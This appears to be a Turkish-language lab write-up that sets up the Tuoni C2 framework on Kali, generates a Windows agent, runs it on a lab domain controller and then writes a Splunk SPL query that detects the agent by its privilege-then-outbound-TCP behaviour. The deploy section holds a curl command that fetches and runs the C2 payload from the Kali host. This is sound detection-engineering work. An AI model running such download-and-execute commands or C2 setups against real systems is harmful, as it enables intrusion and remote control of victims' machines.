Bir beacon'ın dosya adı ve bağlandığı IP biliniyorsa, onu Splunk'ta bulmak bir tespit değil, basit bir arama işlemidir. `calclistlogic.exe` ve `192.168.86.128` yazılır, ilgili olaylar listelenir. Ancak gerçek bir vakada bu iki bilgi analiste önceden verilmez; çoğu zaman olay gerçekleştikten sonra öğrenilir.

Bu nedenle deneyi tersten kurguladık: dosya adını ve IP'yi aramadan tamamen çıkardığımızda, Windows bu ajanı yalnızca **davranışıyla** gösterebilir mi? Süreci üç kez çalıştırdık ve üçünde de aynı sıra ortaya çıktı. Kullanıcı profilinin altından başlayan bir süreç kısa bir pencerede dokuz token ayrıcalığını etkinleştirdi ve bunu yapar yapmaz, yedi ila dokuz saniye içinde Kali'ye giden bir TCP bağlantısı açtı. Tespit ettiğimiz şey bir imza değil, bu davranış sırasıydı.

## Laboratuvar topolojisi

İki makine yeterli oldu. Kali (`192.168.86.128`) Tuoni sunucusunu ve HTTP listener'ı barındırdı. Windows tarafında DC01 (`192.168.86.129`) hedef sistemdi ve Security olaylarını bir Splunk Universal Forwarder aracılığıyla `windows` indeksine iletiyordu. Bu kurgu, saldırı tarafında Tuoni konsolunda görünen oturumu, savunma tarafında Splunk'a düşen süreç kimliğiyle birebir eşleştirmemizi sağladı. Aynı PID'nin iki ayrı tarafta görülmesi, korelasyonun doğruluğunu teyit eder.

## Kali'de Tuoni'yi ayağa kaldırmak

Kurulum betiğini indirip çalıştırdık. Bu makinede `/srv/tuoni` dizini zaten mevcuttu; dolayısıyla betik sıfırdan kurulum yapmak yerine mevcut kurulumu tespit etti ve güncelleme için onay istedi.

```bash
curl -fsSL https://raw.githubusercontent.com/shell-dot/tuoni/main/scripts/setup.sh \
  -o ~/tuoni-setup.sh && bash ~/tuoni-setup.sh
```


_Görsel 1 · Mevcut kurulum bulundu, güncelleme başlatıldı._

Güncelleme önce çalışan konteynerleri durdurdu, ardından `0.17.2` etiketli imajları indirdi. Sonrasında dört konteyner — sunucu, istemci, Nginx ve dokümantasyon — sırayla başlatıldı.


_Görsel 2 · Yeni imajlar indiriliyor._


_Görsel 3 · Dört konteyner Running durumunda, Nginx yapılandırma testi başarılı._

Yönetim arayüzünün ve API'nin dinlediği portları `ss` ile doğruladık.

```bash
sudo ss -lntp '( sport = :12702 or sport = :8443 )'
```


_Görsel 4 · 12702'de docker-proxy (web arayüzü), 8443'te Java (C2 sunucusu) dinliyor._

Operatör hesabı yapılandırma dosyasında tanımlıdır. `tuoni.auth.credentials` bölümünü açarak sunucu portunu ve giriş bilgilerini teyit ettik.

```bash
sudo less /srv/tuoni/config/tuoni.yml
```


_Görsel 5 · Yapılandırma dosyası inceleniyor._


_Görsel 6 · Sunucu portu ve operatör kimliği._

```bash
/srv/tuoni/tuoni start
```


_Görsel 7 · Servisler Running durumunda._

Son adım oturum açmaktı. Kali tarayıcısında `https://localhost:12702/connect` adresini açtık, Server alanında kurulumun kullandığı `https://local-c2:8443` değerini koruduk ve operatör hesabıyla bağlandık.


_Görsel 8 · Konsola giriş._

## HTTP listener ve Windows x64 ajanı

`Listeners → New listener` ekranında `shelldot.listener.agent-reverse-http` eklentisini seçtik. Listener'a `HTTPListener` adını verdik; Host alanına Windows'un erişebildiği Kali adresini, Port alanına `8080` değerini girdik ve protokolü HTTP olarak bıraktık. Buradaki Host, ajanın geri bağlanacağı adrestir; bu alan `127.0.0.1` olarak bırakılırsa ajan Kali'ye erişemez.


_Görsel 9 · Callback hedefi 192.168.86.128:8080._


_Görsel 10 · Listener Started durumunda._

Listener satırını genişlettiğimizde iki ayrı alan dikkat çekiciydi: `bindAddress` içinde `0.0.0.0`, `httpCallbacks → hosts` içinde `192.168.86.128`. İlki Kali'nin hangi arayüzlerde dinlediğini, ikincisi ajanın nereye bağlanacağını belirler. Bu iki alanın karıştırılması, listener çalışsa dahi ajanın geri bağlanmamasına yol açar.


_Görsel 11 · Listener'ın JSON yapılandırması ve HTTP yolları._

Payload'ı `Payloads → New payload` üzerinden ürettik. `HTTPListener`'ı seçtik ve Windows x64 satırında `EXECUTABLE` biçimiyle Generate seçeneğini kullandık.


_Görsel 12 · Windows x64 yürütülebilir dosyası üretiliyor._

Deploy ekranı CMD için hazır bir komut üretti. İndirme ve çalıştırma adımlarını ayrı yürüttük; bu iki işlem Windows telemetrisinde farklı olaylar üretir ve ayrı adımlarda ayrı ayrı gözlemlenir.

```batch
curl.exe "http://192.168.86.128:8080/payload?payloadId=1" -o calclistlogic.exe && calclistlogic.exe
```


_Görsel 13 · Üretilen deploy komutu._

## Windows'ta ilk bağlantı ve komut doğrulaması

Ajanı çalıştırmadan önce `Test-NetConnection` ile 8080 portuna ağ erişimini doğruladık.

```powershell
Test-NetConnection -ComputerName 192.168.86.128 -Port 8080
```


_Görsel 14 · TcpTestSucceeded : True._

Erişim doğrulandıktan sonra payload'ı indirdik.

```batch
curl.exe "http://192.168.86.128:8080/payload?payloadId=1" -o calclistlogic.exe
```


_Görsel 15 · Dosya Administrator profilinin altına indirildi._

Dosya çalıştırıldığında Tuoni'nin `Agents` görünümünde DC01 ve `calclistlogic.exe` belirdi. Windows'un 4688 olaylarında bu üç çalıştırmanın ebeveyni `explorer.exe`'ydi; dolayısıyla süreç ağacının kökünde bir kullanıcı etkileşimi bulunuyordu. Tespit kuralındaki "kullanıcı profilinden ve interaktif olarak başlayan süreç" varsayımı bu gözleme dayanır.


_Görsel 16 · İlk check-in: makine, kullanıcı, ajan süreci ve listener aynı satırda._

Grafik görünümünde DC01'in `HTTPListener` üzerinden sunucuya ulaştığı açıkça görülüyordu. Oturumlardan birinin alt bilgi çubuğunda `PID 6080` değeri yer alıyordu. Aynı PID, ileride Splunk sonucunda ondalık biçimde yeniden görünür. İki taraftaki PID'nin örtüşmesi, korelasyonun tesadüfi olmadığını gösterir.


_Görsel 17 · Ajan oturumu, PID 6080._

Oturumun gerçekten canlı olduğunu doğrulamak için ajan terminalinde süreç listesi istedik. Yanıt, Windows süreçlerinin PID, PPID ve kullanıcı bilgisiyle geri döndü; bu da C2 üzerinden komut yürütmenin çalıştığını gösterir.

```text
ps
```


_Görsel 18 · C2 üzerinden alınan `ps` çıktısı._

## Splunk'ta hangi olayları birleştirdik?

İncelediğimiz 120 Security kaydında her çalıştırma için **yalnızca bir** giden bağlantı olayı mevcuttu. Çoğu C2 tespit kuralının dayandığı "belirli sayıda bağlantı" veya "düzenli aralıklarla tekrarlayan beacon" koşulu uygulansaydı, üç örnek de gözden kaçardı. Tek bir check-in, hacim tabanlı mantığın kör noktasıdır.

Bu nedenle hacme değil, **ağ bağlantısından hemen önce aynı süreçte gerçekleşen olaylara** odaklandık. Üç olay türü bir araya geldiğinde davranış tamamlanır:

| Security olayı | Korelasyondaki rolü |
|---|---|
| 4688 × 3 | Yeni sürecin yolu, PID'si, ebeveyni ve başlangıç zamanı; sessionization'ın çıpası. |
| 4703 × 27 | Üç süreçte de dokuzar ayrı token ayrıcalığının etkinleştirilmesi. |
| 5156 × 3 | Windows Filtering Platform'un izin verdiği giden TCP bağlantısı ve hedefi. |

### Temel zorluk: PID'ler aynı biçimde gelmiyor

Bu üç olayı tek bir süreçte birleştirmenin önündeki asıl engel teknik niteliktedir. PID değerleri her olayda farklı biçimde kaydedilir. 4688'de yeni sürecin kimliği `NewProcessId` alanında **onaltılık** biçimdedir (`0x17c0`). 5156'da ise ayrıştırılmış `ProcessID` alanı iki ayrı PID içerebilir: olay sağlayıcısının PID'si ve asıl uygulamanın PID'si. Bu nedenle 4703 ve 5156 için değeri ham ayrıştırılmış alandan değil, `EventData_Xml` içinden `rex` ile çektik ve tüm değerleri tek bir kurala göre ondalığa çevirdik. `0x17c0` ile `6080` aynı süreci gösterir; sorgunun bunu tanıması gerekir, aksi hâlde korelasyon ilk adımda kopar.

İkinci ayrıntı 5156'nın yön filtresidir. `Direction="%%14593"` giden (outbound) bağlantının Windows'taki sabit kodudur; `Protocol="6"` ise TCP'yi belirtir. Bu iki koşul olmadan sorgu, gelen bağlantıları ve UDP trafiğini de kapsamına alır.

### Sessionization: streamstats ile süreç penceresi

Yöntemin özü bu aşamadadır. Olayları makine ve PID'ye göre sıralayıp `streamstats last(start_marker)` ile her olayın ait olduğu 4688 başlangıcını ileriye taşıdık. Böylece dağınık 4703 ve 5156 kayıtları, kendilerini doğuran süreç başlangıcıyla aynı gruba düşer. Ardından `_time - started <= 30` koşuluyla pencereyi ilk 30 saniyeye sınırladık. Ajan davranışı saniyeler mertebesinde gerçekleştiğinden bu pencere hem yeterince dar hem de normal seyreden yavaş süreçleri kapsam dışında tutacak genişliktedir.

Aşağıdaki SPL tam olarak bu mantığı uygular: kullanıcı profili altındaki bir EXE'nin başlangıcını çıpa alır, ilk 30 saniyede aynı PID için en az beş farklı ayrıcalık arar, bunların arasında `SeDebugPrivilege` ile birlikte `SeLoadDriverPrivilege` veya `SeTakeOwnershipPrivilege` bulunmasını şart koşar ve son ayrıcalık etkinleştirmesinin ilk giden TCP bağlantısından önce ya da onunla eşzamanlı olmasını gerektirir.

```spl
index=windows Channel=Security EventCode IN (4688,4703,5156)
| eval eid=tonumber(EventCode), endpoint=coalesce(Computer,host)
| where (eid=4688 AND match(NewProcessName,"(?i)^[a-z]:\\\\users\\\\.+\\.exe$"))
    OR (eid=4703 AND match(ProcessName,"(?i)^[a-z]:\\\\users\\\\.+\\.exe$"))
    OR (eid=5156 AND Direction="%%14593" AND Protocol="6"
        AND match(Application,"(?i)\\\\users\\\\.+\\.exe$"))
| rex field=EventData_Xml "(?i)<Data Name=['\"]ProcessID['\"]>(?<event_pid>(?:0x)?[0-9a-f]+)</Data>"
| eval raw_pid=lower(if(eid=4688,NewProcessId,event_pid))
| eval pid=if(substr(raw_pid,1,2)="0x",tonumber(substr(raw_pid,3),16),tonumber(raw_pid))
| where isnotnull(pid)
| eval start_marker=if(eid=4688,_time,null())
| sort 0 endpoint pid _time eid
| streamstats last(start_marker) AS started BY endpoint pid
| where isnotnull(started) AND _time-started<=30
| eval enabled=if(eid=4703,EnabledPrivilegeList,null())
| rex field=enabled max_match=0 "(?<privilege>Se[A-Za-z]+Privilege)"
| eval priv_time=if(isnotnull(privilege),_time,null())
| eval net_time=if(eid=5156,_time,null())
| eval destination=if(eid=5156,DestAddress." port ".DestPort,null())
| stats values(NewProcessName) AS image values(ParentProcessName) AS parent
        values(SubjectUserName) AS user dc(privilege) AS privilege_count
        values(privilege) AS privileges max(priv_time) AS last_priv
        min(net_time) AS first_tcp values(destination) AS destinations
  BY endpoint pid started
| where privilege_count>=5 AND isnotnull(first_tcp) AND last_priv<=first_tcp
    AND mvfind(privileges,"^SeDebugPrivilege$")>=0
